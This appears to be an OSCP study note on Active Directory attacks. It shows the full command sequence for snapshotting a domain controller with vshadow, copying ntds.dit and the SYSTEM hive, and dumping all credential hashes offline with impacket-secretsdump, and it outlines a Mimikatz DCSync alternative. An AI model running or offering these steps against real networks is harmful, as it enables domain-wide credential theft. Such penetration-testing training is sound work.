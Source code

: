 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/14-active-directory-movement/8-shadow-copies/"}
---
```


------------------------
- Shadow Copy, a.k.a. Volume Shadow Service (VSS), is a Microsoft backup technology that allows for creation of snapshots of files and volumes.
- Managed through vshadow.exe.
- As a domain admin one can extract the AD NTDS.dit database file and extract credentials offline.

### Extract ntds.dit AD Database:
1. As domain admin in elevated Powershell run:
```
vshadow.exe -nw -p  C:
```
2. Copy the extracted file to root folder:
```
copy <shadow-copy-device-name>\windows\ntds\ntds.dit c:\ntds.dit.bak
```
3. Save the SYSTEM hive from windows registry:
```
reg.exe save hklm\system c:\system.bak
```
4. Move the two files to Kali and use Impacket to extract credentials:
```
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

### Alternative OpSec Method:
1. Compromise DC.
2. Get Mimikatz to machine.
3. Dump hashes for all users individually through DCSync attacks.
